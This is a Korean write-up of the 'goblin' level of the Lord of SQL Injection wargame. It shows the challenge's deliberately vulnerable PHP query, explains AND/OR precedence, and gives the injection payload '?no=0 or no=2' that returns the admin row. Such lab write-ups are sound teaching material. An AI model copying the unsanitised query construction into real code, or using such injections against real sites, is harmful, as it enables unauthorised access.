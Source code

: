 ```yaml
---
layout: post
title: ! "[Lord of SQL Injection] LoS - goblin 문제풀이"
excerpt_separator: <!--more-->
comments: true
tags:
  - Write-up
  - Lord of SQL Injection
---
```


다음 문제는 `goblin` 문제이다.  

이번에는 `password column` 대신에 `no column`이 생겼다.  

<!--more-->

코드는 다음과 같다.  

```php
-------------------------------------------------------------------------------------
query : select id from prob_goblin where id='guest' and no=
-------------------------------------------------------------------------------------

<?php 
  include "./config.php"; 
  login_chk(); 
  dbconnect(); 
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[no])) exit("No Hack ~_~"); 
  if(preg_match('/\'|\"|\`/i', $_GET[no])) exit("No Quotes ~_~"); 
  $query = "select id from prob_goblin where id='guest' and no={$_GET[no]}"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysql_fetch_array(mysql_query($query)); 
  if($result['id']) echo "<h2>Hello {$result[id]}</h2>"; 
  if($result['id'] == 'admin') solve("goblin");
  highlight_file(__FILE__); 
?>
```

`no column`이 새로 생겼으며, `id`가 `guest`로 고정되어 있다.  

또한 이번에는 `'(싱글쿼터)`를 입력할 수 없다.  

하지만 문제를 풀기 위해서는 `id`가 `admin`인 행을 추출해야 한다.  

`where` 절에서 `id='guest'`와 `no=??`의 두 조건은 `and`로 연결되어 있다.  

따라서 이를 이용 해 문제를 풀 수 있을 것 같다.  

데이터베이스에 아래와 같이 저장되어 있다고 가정 해 보자.  

| no  | id |
| :------------ | :-----------: |
| 0 | guest |
| 1 | admin |

이 경우, 만약 `no` 자리에 `0`이 있다면 결과적으로 `where id='guest' and no={$_GET[no]}`의 where 절은 참이 되므로 첫 번째 행이 추출 될 것이다.  

하지만 만약 `no`자리에 `0이 아닌 값`이 들어간다면 결과적으로 조건절은 `거짓`이 되어 아무런 결과 값을 가져오지 않는다.  

이 때, 만약 뒤에 아래와 같이 `or`로 묶인 조건이 추가적으로 있을 경우 뒤의 조건문을 실행하게 된다.  

```
where id='guest' and no=1 or no=1
```

위의 where 절에서 `id='guest'`이고 `no=1`인 행이 없으므로, `and`로 묶여 있는 조건은 `거짓`이 된다.  

때문에 `or`뒤의 조건을 실행하게 되어 `no=1`인 행을 추출하게 된다.  

따라서 기존에 있던 조건 뒤에 추가적으로 조건을 삽입할 수 있다면 `id`가 `guest가 아닌` 행을 추출할 수 있다.  

먼저 문제를 풀기 위해 `guest`의 `no`가 무엇인지 확인하기 위해 `no`에 `0`, `1`을 입력 해 보았다.  

```php
----------------------------------------------------------------------------------
query : select id from prob_goblin where id='guest' and no=1
----------------------------------------------------------------------------------

Hello guest
<?php 
  include "./config.php"; 
  login_chk(); 
  dbconnect(); 
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[no])) exit("No Hack ~_~"); 
  if(preg_match('/\'|\"|\`/i', $_GET[no])) exit("No Quotes ~_~"); 
  $query = "select id from prob_goblin where id='guest' and no={$_GET[no]}"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysql_fetch_array(mysql_query($query)); 
  if($result['id']) echo "<h2>Hello {$result[id]}</h2>"; 
  if($result['id'] == 'admin') solve("goblin");
  highlight_file(__FILE__); 
?>
```

그 결과 `no`가 `1`일 때 `Hello guest`가 출력되는 것을 확인할 수 있다.  

따라서 `guest`의 `no`는 `1`임을 알 수 있으며 추측할 수 있는 데이터베이스의 데이터는 다음과 같다.  

| no  | id |
| :------------ | :-----------: |
| 1 | guest |
| 1이 아닌 값 | admin |

즉, `id`가 `admin`인 행의 `no`는 `1이 아닌 값`으로 되어 있을 것이다.  

위에서 설명했다시피 다음과 같이 입력 해 `and`로 묶인 조건을 거짓으로 만드는 쿼리를 구성하면 `id가 guest가 아닌 행`을 추출할 수 있다.  

```
?no=0 or no=0
```

따라서 `id`가 `admin`인 행을 추출하기 위해 `or` 뒤의 `no` 자리에 `1`이 아닌 값을 차례로 입력 해 보면 언젠가는 내가 원하는 행을 추출할 수 있을 것이다.  

`0`부터 입력해 본 결과, `no`가 `2`일 때 문제를 풀 수 있었다.  

```php
--------------------------------------------------------------------------------------------------
query : select id from prob_goblin where id='guest' and no=0 or no=2
--------------------------------------------------------------------------------------------------

Hello admin
GOBLIN Clear!
<?php 
  include "./config.php"; 
  login_chk(); 
  dbconnect(); 
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[no])) exit("No Hack ~_~"); 
  if(preg_match('/\'|\"|\`/i', $_GET[no])) exit("No Quotes ~_~"); 
  $query = "select id from prob_goblin where id='guest' and no={$_GET[no]}"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysql_fetch_array(mysql_query($query)); 
  if($result['id']) echo "<h2>Hello {$result[id]}</h2>"; 
  if($result['id'] == 'admin') solve("goblin");
  highlight_file(__FILE__); 
?>
```

`GOBLIN Clear!!`
